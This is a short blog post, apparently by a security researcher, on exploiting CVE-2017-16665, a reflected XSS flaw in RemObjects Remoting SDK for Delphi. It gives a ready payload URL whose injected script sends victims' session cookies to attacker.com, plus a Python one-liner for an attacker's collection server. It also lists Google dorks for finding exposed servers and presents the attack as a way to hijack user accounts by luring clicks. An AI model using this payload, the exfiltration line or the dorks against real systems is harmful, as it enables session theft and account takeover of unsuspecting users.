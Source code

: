 ```yaml
---
title: Exploiting CVE-2017-16665
tags: ["Web Attack","Exploit", "Hack", "Web Exploit", "0-Day"]
date: 2017-12-08
cover: "/media/Thumbs-Up.gif"
---
```


## Attack

RemObjects Remoting SDK 9 1.0.0.0 for Delphi is vulnerable to a reflected Cross Site Scripting (XSS) attack via the service parameter to the /soap URI, triggering an invalid attempt to generate WSDL.

*RemObjects Remoting SDK*<br>Clients are applications that talk to your servers, and Remoting SDK allows you to add client functionality to apps written in just about any modern programming tool, and for all current platforms: Cocoa developers can use our native Cocoa frameworks from Swift, Objective-C, Oxygene or RemObjects C#  


## Payload

Many web applications uses this SDK and also expose this via some port pubically. This reflected XSS can be very helpful in hijacking user accounts by simply luring users to click on following URL.

```HTML
https://victim.com:8099/SOAP?service=<script>document.location='https://attacker.com:9090/somefolder/1.php?cookie='.concat(escape(document.cookie));</script>
```

**Attacker Web Server**

```python
python -m SimpleHTTPServer 9090

```

**Google Dorks**
```text
RemObjects SDK for delphi v1.0.0
inurl:/SOAP/?service=
RemObjects SDK for Delphi v2.0.1.3
intext:RemObjects SDK for Delphi RemObjects Software, LLC.
```




## Exploit

![ XSRF Protection Bypass](/media/CVE-2016-16665.gif "Session Hijacking Via XSS in Action!!")





##### **References**:

1. [CSRF](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS))
2. [CVE-2017-16665](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-16665)
3. [RemObjects Bug](https://talk.remobjects.com/t/reflected-cross-site-scripting-xss-vulnerability/14662)

